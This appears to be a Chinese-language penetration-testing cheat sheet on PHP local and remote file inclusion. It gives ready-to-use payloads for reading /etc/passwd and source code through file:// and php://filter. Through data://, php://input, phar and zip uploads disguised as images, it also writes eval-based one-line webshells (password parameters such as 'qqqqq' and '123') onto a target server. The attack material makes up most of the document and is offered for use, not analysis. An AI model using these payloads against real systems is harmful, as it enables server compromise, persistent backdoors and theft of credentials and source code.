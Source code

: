 # 文件包含漏洞
## 利用点函数
```php
<?php
require '1.php'; #包含错误会报错并停止运行
require_once '1.php';
include '1.php'; #包含错误会报错但继续运行
include_once '1.php';
file_get_contents('1.php','r');
?>
```
## 验证
> windows系统
>>?a=type C:\Windows\win.ini

> linux系统
>> ?a=cat /etc/passwd

## file
- ?a=file:///etc/passwd
## http/https
- ?a=https://www.xxx.com/1.php

- 利用条件

allow_url_fopen、allow_url_include

1.php可以写一个写入一句话木马的内容
```php
<?php
$a = "<?php eval(\$_POST['123'])?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "木马已生成.";    
echo '<br/>';
?>
## 自动生成a.php,密码为123
```
那么在对方机器上就自动生成了一个木马，链接即可利用
## data
data协议是一个数据封装的协议

data协议格式：

  data:[<mime type>][;charset=<charset>][;base64],<encoded data>

解析：

  第一部分 data: 标识这是data协议

  第二部分 mime：表示这串内容以什么方式展现，几种常用的类型：

    第三部分charset：编码设置，可省略，省略则会使用默认的编码显示，

常用的也就 utf-8 / unicode / gbk 这几个

  第四部分base64：不是必选，代表是否对后面的数据使用base64解码，即数据是不是base64编码的数据

- 利用条件

allow_url_fopen、allow_url_include php>=5.2

```url
?a=data://text/plain,<?php phpinfo();?>
?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
?a=data://text/plain,<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq']);?>');?>
```
## php
### php://filter读取源码
- 不受 allow_url_fopen 、allow_url_include 开启与否的限制
- 利用方法
```url
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
php://filter/read=string.toupper|string.rot13/resource=flag.php
```
### php://input
- 利用条件

allow_url_include=on

- 利用方法(数据包内)
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php phpinfo();?>
```
- 写入一句话木马
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq'])?>');?>
```
## phar
phar协议要求：php大于5.3.0

需要将php.ini的参数phar.readonly设置为off

- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip

接下来将2.zip重命名为2.png

然后上传文件2.png,查找路径，即可利用

![](./i/1.png)


以下的这种包含方式在这样的情况下是无效的。

include(一个规定的路径+可控点)

## zip
- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip,上传，即可利用
![](./i/2.png)